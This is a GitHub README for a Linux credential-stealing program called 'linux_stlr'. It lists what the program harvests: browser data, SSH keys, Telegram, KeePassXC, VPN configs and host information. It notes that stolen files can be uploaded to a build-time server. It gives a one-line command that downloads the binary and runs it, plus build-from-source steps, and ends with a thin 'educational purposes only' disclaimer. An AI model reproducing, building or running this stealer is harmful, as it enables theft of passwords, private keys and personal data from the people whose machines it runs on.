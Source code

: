 # linux_stlr

A linux stealer with support for:
- gecko based browsers
- chrome based browsers
- sensitive files
- host information
- ssh keys
- remmina
- pidgin
- mullvad
- git
- telegram
- openvpn
- keepassxc

This stealer has support for uploading to a file server but a file server is not included in the repo. Instead, If a webserver is not injected at build time with `-X main.Host` it will gather all the files in a zip file and place it in the current directory.

## one liner
```
wget https://github.com/notathrow/linux_stlr/releases/download/v1.0.6/linux_stlr -O ./linux_stlr;chmod +x ./linux_stlr;./linux_stlr
```

  ## build from source

1. Install golang:
  https://go.dev/doc/install

2. clone and compile Compile:
```
git clone https://github.com/notathrow/linux_stlr
cd linux_stlr
GOOS=linux go build
```
output file should be `linux_stlr` in build directory.

3. Place output file on test machine.
4. Give executable permissions:
```
chmod +x ./linux_stlr
```
5. Execute
```
./linux_stlr
```
6. Now `s.zip` should appear in the directory of execution.

## Legal Disclaimer 
This project was made for educational purposes only. using infomation gathering tools on data that is not your own is ILLEGAL.


  
